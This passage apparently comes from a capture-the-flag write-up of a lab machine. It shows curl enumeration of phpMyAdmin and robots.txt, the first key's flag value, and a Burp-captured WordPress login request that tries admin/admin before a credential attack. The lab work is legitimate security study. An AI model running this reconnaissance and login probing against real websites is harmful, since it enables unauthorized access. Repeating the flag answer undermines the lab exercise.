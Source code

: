 ```bash
└─$ curl 10.10.83.180/phpmyadmin
For security reasons, this URL is only accessible using localhost (127.0.0.1) as the hostname.
```

Okay, so we can only use this as admin. 

Lets check the `robots.txt` file.

```bash

└─$ curl 10.10.83.180/robots.txt
User-agent: *
fsocity.dic
key-1-of-3.txt
```

This looks very promising. We have a `.dic` file which should be a `dictionary file` and our first answer as txt.

Lets download the `.dic` file and check the content of the `txt` file.

```bash

└─$ curl 10.10.83.180/key-1-of-3.txt
073403c8a58a1f80d943455fb30724b9

```

Answer: `073403c8a58a1f80d943455fb30724b9`


### What is key 2? 

Back to the `wp-login`. Lets analyze the `POST` request with `Burpsuite`.

```bash

POST /wp-login.php HTTP/1.1
Host: 10.10.83.180
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Origin: http://10.10.83.180
Connection: keep-alive
Referer: http://10.10.83.180/wp-login.php
Cookie: s_cc=true; s_fid=7F4BB426ED3299DA-0CC18A1497731E85; s_nr=1729584073603; s_sq=%5B%5BB%5D%5D; comment_author_f63cd275cdddce8d118a8620f2380a41=test; comment_author_email_f63cd275cdddce8d118a8620f2380a41=test%40test.de; comment_author_url_f63cd275cdddce8d118a8620f2380a41=http%3A%2F%2Ftest.de; wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1

log=admin&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.83.180%2Fwp-admin%2F&testcookie=1
```
